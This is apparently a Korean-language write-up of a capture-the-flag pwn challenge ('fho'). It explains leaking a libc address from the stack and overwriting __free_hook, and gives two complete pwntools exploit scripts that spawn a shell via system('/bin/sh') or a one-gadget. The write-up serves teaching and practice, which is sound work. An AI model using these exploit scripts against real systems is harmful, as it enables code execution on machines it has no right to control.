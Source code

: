 * 빨간 네모칸 : `read(0, buf, 0x100);`를 통해 **AAAA**를 대입한 값이 [rbp-0x40] 즉, buf의 위치가 된다.

* 노란 네모칸 : 노란 네모칸 앞 8byte는 **SFP**, 네모칸은 `__libc_start_main_ret`으로 RET의 위치가 된다. **gdb**사용시 **Backtrace**를 통해 `__libc_start_main+xxx`를 통해 알 수 있다.

buf에 0x48의 dummy 값을 넣어 출력되는 값은 `__libc_start_main_ret`가 되므로 해당 값을 통해 `libc_base`를 구한다. 이후 `__free_hook`을 이용하기 위해 해당 Symbol를 구하고, One-gadget을 통해 Exploit하면 된다.

### Exploit
```python
from pwn import *

p = process('./fho', env = {'LD_PRELOAD' : './libc-2.27.so'})
# p = remote('host3.dreamhack.games', 10103)
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)

libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00' * 2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
binsh_offset = list(libc.search(b'/bin/sh\x00'))[0]

free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols["system"]
binsh = libc_base + binsh_offset

p.sendlineafter("To write: ", str(free_hook))
p.sendlineafter("With: ", str(system))
p.sendlineafter("To free: ", str(binsh))

p.interactive()
```

### One-Gadget Exploit
```python
from pwn import *

p = process('./fho', env = {'LD_PRELOAD' : './libc-2.27.so'}) # libc linking
libc = ELF('./libc-2.27.so')

buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)

libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00' * 2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
free_hook = libc_base + libc.symbols['__free_hook']
one_gadget = libc_base + 0x4f432 # one gadget values

p.sendlineafter("write: ", str(free_hook))
p.sendlineafter("With: ", str(one_gadget))
p.sendlineafter("free: ", "0") # any values

p.interactive()
```